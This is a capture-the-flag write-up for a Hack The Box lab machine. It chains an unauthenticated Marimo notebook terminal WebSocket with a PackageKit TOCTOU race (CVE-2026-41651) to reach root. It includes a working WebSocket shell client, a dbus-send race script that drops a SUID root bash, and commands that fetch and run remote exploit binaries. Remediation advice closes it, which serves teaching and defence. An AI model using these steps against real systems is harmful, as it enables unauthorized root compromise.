



# Write-Up — Cohort: Exposed Marimo Notebook Terminal to Root via PackageKit TOCTOU Race (CVE-2026-41651)

> **Type:** Web Application / Linux Penetration Test (HTB)
> **Target:** `10.129.161.193` (`cohort.htb`)
> **Tools:** Nmap, Python (`websocket-client`, `ssl`, `threading`), wget/curl, Pack2TheRoot (CVE-2026-41651 exploit)
> **Final Result:** Shell as `marimo` via a direct, unauthenticated WebSocket connection to a Marimo notebook's built-in terminal, escalated to root via a TOCTOU race condition in PackageKit's D-Bus `InstallFiles` transaction handling

---

## 1. Introduction

The target hosts a data-notebook platform built on **Marimo** (a reactive Python notebook environment), branded internally as "Cohort Insights" (`cohort-insights.service`). Each active notebook session is served from its own randomized subdomain (`nb-<session-id>.cohort.htb`), and that subdomain exposes a **raw terminal over WebSocket** with no authentication layer of its own. The objective was to connect directly to that terminal, establish a foothold as the `marimo` service user, and escalate to root.

This box is a clean demonstration of two very different problem classes stacked on top of each other:

- **An authentication gap at the transport layer** — the notebook's terminal WebSocket endpoint trusted the connection itself as sufficient authorization, with no session/token validation on the socket.
- **CVE-2026-41651** — a Time-of-Check to Time-of-Use (TOCTOU) race condition in **PackageKit**, exploitable to make `packagekitd` install an attacker-supplied payload as a **SIMULATE** request actually get processed as a **REAL** one, resulting in a root-owned SUID binary being dropped on disk.

---

## 2. Reconnaissance

### 2.1 Port Scan

| Port | Service |
|------|---------|
| 22/tcp | SSH |
| 80/tcp | HTTP |
| 443/tcp | HTTPS |

### 2.2 Identifying the Notebook Subdomain

Browsing the main site and adding the base hostname to `/etc/hosts`:

```bash
echo "10.129.161.193 cohort.htb" | sudo tee -a /etc/hosts
```

revealed that an active session had been provisioned on a per-session subdomain of the form:

```
nb-1be3782a8afd3ad5.cohort.htb
```

This was added to `/etc/hosts` as well, pointing at the same target IP, to allow TLS SNI/Host-header routing to reach the correct backend notebook instance.

---

## 3. Vulnerability Analysis — Exposed Notebook Terminal WebSocket

### 3.1 The Vulnerability

- **Type:** Missing authentication on a WebSocket-based remote terminal endpoint
- **Authentication:** None — the socket accepted commands from any client able to complete the WebSocket handshake with a matching `Host`/`Origin`
- **Impact:** Direct, interactive shell access as the notebook service's OS user, with no credentials of any kind

Marimo's notebook UI includes a browser-based terminal for convenience during development. On this deployment, the terminal's WebSocket endpoint (`/terminal/ws`) was reachable directly — bypassing the notebook UI entirely — and relayed raw keystrokes to an actual shell process on the host, with the only "access control" being knowledge of the correct per-session hostname.

### 3.2 Building a Minimal WebSocket Client

A small Python client was used to connect directly to the terminal socket and relay stdin/stdout interactively:

```python
import ssl, threading, websocket

host   = "nb-1be3782a8afd3ad5.cohort.htb"
ws_url = "wss://10.129.161.193/terminal/ws"

ws = websocket.create_connection(
    ws_url,
    host=host,
    origin="https://" + host,
    sslopt={"cert_reqs": ssl.CERT_NONE},
    timeout=5,
)

def recv_loop():
    while True:
        try:
            print(ws.recv(), end="")
        except Exception:
            break

threading.Thread(target=recv_loop, daemon=True).start()

while True:
    cmd = input()
    if cmd.lower() == "exit":
        break
    ws.send(cmd + "\r")
ws.close()
```

Key details worth noting:

- The connection is made directly to the target **IP** over TLS (`wss://10.129.161.193/terminal/ws`), while the `host`/`origin` parameters are set to the notebook's actual per-session hostname — satisfying any Host-header or Origin-based routing/validation on the backend without needing working DNS resolution for the IP itself.
- `sslopt={"cert_reqs": ssl.CERT_NONE}` disables certificate validation, appropriate here since the target uses a self-signed/internal certificate.
- Commands are sent terminated with `\r` (carriage return), matching what a real terminal emulator would send on Enter.

---

## 4. Initial Access

### 4.1 Running the Exploit

```bash
python3 Exploit.py
```

```
id
marimo@cohort:~$ id
uid=1000(marimo) gid=1000(marimo) groups=1000(marimo)
```

The connection succeeded immediately and returned a live, interactive shell as the **`marimo`** OS user — no login prompt, no credentials, no exploit payload beyond simply connecting to the socket.

### 4.2 User Flag

```
marimo@cohort:~$ ls
notebooks  user.txt
marimo@cohort:~$ cat user.txt
```

```
6dc62bc4c1a4d9887249da16c9eb352b
```



> **Severity: Critical.** A fully interactive shell was obtained with zero authentication — the WebSocket terminal endpoint had no session, token, or credential check of any kind.

### 4.3 Checking for an Easy Privilege Path

```
marimo@cohort:~$ sudo -l
[sudo] password for marimo:
Sorry, try again.
```

No password was known for `marimo`, closing off the `sudo` route immediately and pointing toward a kernel/service-level privilege escalation instead.

---

## 5. Post-Exploitation Enumeration — linPEAS

### 5.1 Downloading linPEAS

linPEAS (Linux Privilege Escalation Awesome Script) is an automated enumeration script that checks hundreds of local privilege escalation vectors in one run — SUID binaries, `sudo` rules, writable paths, running services, kernel/software versions, cron jobs, container escapes, and more. It is the standard first step after obtaining a foothold when `sudo -l` offers no immediate path.

The latest release was downloaded on the attacking host from the official repository:

```bash
# attacker host
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 5050
```

### 5.2 Transferring linPEAS to the Target

Several initial transfer attempts failed — the target had **no outbound internet access**, so direct GitHub fetches failed. The WebSocket terminal relay also occasionally injected bracketed-paste escape sequences (`^[[200~`) into typed URLs, corrupting them. Both issues were resolved by hosting the script locally on the attacking host and fetching it over the VPN interface:

```bash
# target
cd /tmp
wget http://10.10.16.133:5050/linpeas.sh
chmod +x linpeas.sh
```

```
marimo@cohort:/tmp$ ls -l linpeas.sh
-rw-r--r-- 1 marimo marimo 1822417 Nov  2 14:22 linpeas.sh
```

### 5.3 Running linPEAS

```bash
./linpeas.sh 2>/dev/null | tee /tmp/lp.txt
```

The output is long — typically several thousand lines. The key section that led to the privilege escalation was flagged in the **"Interesting Writable Files / Vulnerable Software"** section, which highlighted the installed **PackageKit** version and its known CVE:

```
╔══════════╣ Checking for PackageKit Pack2TheRoot (CVE-2026-41651) (T1068)
╚ https://github.security.telekom.com/2026/04/pack2theroot-linux-local-privilege-escalation.html
  PackageKit version detected: 1.2.8-2ubuntu1.2
  Vulnerable to CVE-2026-41651 (Pack2TheRoot) — PackageKit 1.2.8-2ubuntu1.2 is below the
  Ubuntu 24.04 fixed version: 1.2.8-2ubuntu1.5
```



The vulnerable range for this CVE is **PackageKit 1.0.2 – 1.3.4**. The target was running **1.2.8-2ubuntu1.2**, squarely within that range, and below the patched Ubuntu 24.04 version (`1.2.8-2ubuntu1.5`). linPEAS also helpfully linked directly to the original research writeup and tagged the finding with the MITRE ATT&CK technique ID **T1068** (Exploitation for Privilege Escalation).

This was the definitive signal to pursue CVE-2026-41651.

---

## 6. Privilege Escalation — CVE-2026-41651 (PackageKit TOCTOU Race)

### 6.1 The Vulnerability

- **CVE:** CVE-2026-41651
- **Type:** Time-of-Check to Time-of-Use (TOCTOU) race condition in PackageKit's D-Bus `InstallFiles` transaction handling
- **Authentication:** A local, unprivileged user account (already obtained)
- **Impact:** Arbitrary file installation with root privileges, used here to drop a SUID root shell

PackageKit exposes a D-Bus interface that supports a two-phase install flow: a transaction can first be run with a **SIMULATE** flag (to preview what a package installation would do, without actually performing it) and then re-run with the real install flag to perform it. The vulnerability arises because PackageKit's validation of *which* transaction/request is "just a simulation" versus "the real thing" can be raced: by firing the **SIMULATE** request and the **REAL** request against the same transaction in rapid succession, `packagekitd` can be made to process the attacker's payload as a genuine installation — including running post-install scripts — even though a policy check believed it was only simulating.

Publicly documented in research by `0xBlackash` (`github.com/0xBlackash/CVE-2026-41651`), with a working exploit distributed as `Pack2TheRoot` by `shibaaa204`.

### 6.2 Exploit Structure (as recovered from the downloaded source)

The core of the race, reconstructed from the exploit's shell logic:

```bash
# Create transaction via dbus-send
TID=$(dbus-send --system --dest="$PK_BUS" --print-reply "$PK_OBJ" "$PK_IFACE.CreateTransaction" | grep -o '/[^"]*')

# Fire the race: SIMULATE and REAL against the same transaction, back-to-back
dbus-send --system --dest="$PK_BUS" --type=method_call "$TID" "$TX_IFACE.InstallFiles" uint32:$FLAG_SIMULATE array:string:"$DUMMY" >/dev/null 2>&1 &
sleep 0.05
dbus-send --system --dest="$PK_BUS" --type=method_call "$TID" "$TX_IFACE.InstallFiles" uint32:$FLAG_NONE array:string:"$PAYLOAD" >/dev/null 2>&1 &

# Poll for the resulting SUID root bash dropped by the payload's post-install step
for ((i=0; i<POLL_SECS; i++)); do
    if [ -f "$SUID_PATH" ] && [ -u "$SUID_PATH" ]; then
        MODE=$(stat -c %a "$SUID_PATH" 2>/dev/null || stat -f %Lp "$SUID_PATH")
        echo -e "\n[+] SUID confirmed: $SUID_PATH (mode=$MODE)"
        break
    fi
    printf "."
done
```

The malicious "package" being installed carries a post-install step that copies `/bin/bash` to a fixed path and sets the SUID bit on it, owned by root — turning a successful race into a durable, reusable root shell rather than a one-shot command execution.

### 6.3 Exploit Preparation

**Step 1 — Download the exploit binary on the attacking host:**

```bash
curl -O https://raw.githubusercontent.com/shibaaa204/Pack2TheRoot/main/exploit.bin
```

This downloads the prebuilt static binary from the Pack2TheRoot repository. Rather than compiling from source on the target (which would require a build toolchain and internet access, neither of which were available), the prebuilt binary was used directly.

**Step 2 — Serve the binary over HTTP:**

```bash
python3 -m http.server 8000
```

**Step 3 — Fetch and stage the binary on the target:**

```bash
# target shell (via WebSocket)
curl -o ~/exploit.bin http://10.10.16.133:8000/exploit.bin
chmod +x ~/exploit.bin
```

```
marimo@cohort:~$ ls -l ~/exploit.bin
-rwxr-xr-x 1 marimo marimo 17280 Nov  4 22:01 /home/marimo/exploit.bin
```

### 6.4 Running the Race

```bash
rm -f /tmp/.suid_bash /tmp/pk.log
nohup ~/exploit.bin >/tmp/pk.log 2>&1 &
sleep 15
cat /tmp/pk.log
```

```
[*] CVE-2026-41651 — PackageKit LPE (Refined)
[+] TxID: /2_abcbecac
[*] Racing: SIMULATE -> REAL...
[*] Polling for /tmp/.suid_bash (60s)...
```

### 6.5 Confirming the SUID Root Shell

```bash
ls -l /tmp/.suid_bash
```

```
-rwsr-xr-x 1 root root 1446024 Nov  4 22:02 /tmp/.suid_bash
```

The `s` in the owner-execute position confirms the SUID bit is set, with `root:root` ownership — the race succeeded, and a durable privilege-escalation primitive now exists on disk.

### 6.6 Escalating to Root

```bash
marimo@cohort:~$ id
uid=1000(marimo) gid=1000(marimo) groups=1000(marimo)
marimo@cohort:~$ /tmp/.suid_bash -p -c 'id; cat /root/root.txt'
```

```
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)
bc969051432b5460f32e5df86d02e1f0
```

The `-p` flag to `bash` preserves the effective UID granted by the SUID bit rather than dropping it on startup (bash normally drops privileges for safety unless `-p` is passed). The output confirms it worked exactly as intended: the **real** UID stays `1000(marimo)` — this is still technically the `marimo` login — but the **effective** UID is `0(root)`, which is what the SUID bit grants and what the kernel actually checks for file access and privileged operations. This is why `cat /root/root.txt` succeeds despite `id` still listing `uid=1000(marimo)`.



**Root flag:**

```
bc969051432b5460f32e5df86d02e1f0
```

> **Severity: Critical.** A TOCTOU race in a privileged D-Bus service allowed a standard local user to obtain a persistent, root-owned SUID shell with no further interaction required once the race succeeds.

---

## 7. Full Attack Chain

```
[ Recon: cohort.htb → per-session Marimo notebook subdomain discovered ]
       │
       ▼
[ nb-<session-id>.cohort.htb → /terminal/ws WebSocket found unauthenticated ]
       │
       ▼
[ Minimal Python WebSocket client (ssl + threading) connects directly ]
       │
       ▼
[ Interactive shell as marimo, no credentials required ]
       │
       ▼
[ id / ls / cat user.txt → user flag confirmed ]
       │
       ▼
[ sudo -l → no known password, path closed ]
       │
       ▼
[ linPEAS staged (after working around no outbound internet + paste corruption) ]
       │
       ▼
[ PackageKit flagged → CVE-2026-41651 researched (0xBlackash writeup) ]
       │
       ▼
[ Pack2TheRoot exploit.bin fetched and executed via nohup ]
       │
       ▼
[ SIMULATE/REAL InstallFiles race → /tmp/.suid_bash (root SUID) confirmed ]
       │
       ▼
[ /tmp/.suid_bash -p -c 'id; cat /root/root.txt' → euid=0(root) → root.txt confirmed ]
```

**Lesson:** The initial foothold required no exploit at all — just discovering that a developer convenience feature (an in-browser terminal) was reachable without authentication. The privilege escalation, by contrast, was a genuine, timing-sensitive vulnerability in system software, resolved with a public, well-documented exploit rather than custom development.

---

## 8. Remediation Summary

| # | Finding | Severity | Remediation |
|---|---------|----------|--------------|
| 1 | Marimo notebook terminal WebSocket (`/terminal/ws`) reachable with no authentication | **Critical** | Require the same session authentication/authorization on the WebSocket upgrade request as on the notebook UI itself; validate a signed session token as part of the handshake, not just a matching hostname. Never expose an interactive terminal relay without per-connection authentication. |
| 2 | Per-session notebook subdomains discoverable/guessable or disclosed via the main site | **Medium** | Avoid leaking live session subdomains through the public-facing site; if dynamic per-session routing is required, pair it with authentication rather than relying on the subdomain itself as a secret. |
| 3 | PackageKit vulnerable to CVE-2026-41651 (TOCTOU race in `InstallFiles`) | **Critical** | Patch PackageKit to a version with the race condition fixed. As defense in depth, restrict which local users/groups may invoke PackageKit's privileged D-Bus methods via polkit policy, and avoid running package-management daemons with unnecessarily broad local-user trust. |
| 4 | No outbound network egress filtering observed from the notebook service host (partial — inbound-only connectivity to attacker infrastructure worked, direct GitHub access did not) | **Low** | Document and enforce egress rules deliberately rather than relying on incidental network restrictions; ensure they're applied consistently rather than blocking some destinations and not others. |

---

## 9. Conclusion

This box is a compact illustration of two principles that show up constantly in modern, tool-heavy environments:

1. **Developer convenience features are a common, underrated attack surface.** An in-browser terminal meant to streamline notebook development became a direct, unauthenticated root-adjacent foothold once its WebSocket endpoint was reachable without the UI wrapping it in session checks.
2. **TOCTOU races remain a serious, exploitable vulnerability class in privileged system daemons.** PackageKit's SIMULATE/REAL transaction model assumed a trust boundary that a sub-second race could violate — a reminder that "preview" and "commit" operations sharing state need strict, atomic validation, not just sequential API calls.

The fix, as with most findings of this class, is to never treat a hard-to-guess URL as a substitute for authentication, and to patch privileged system daemons as promptly as any internet-facing application — a local TOCTOU bug is just as much "critical" as a remote one once any foothold exists.
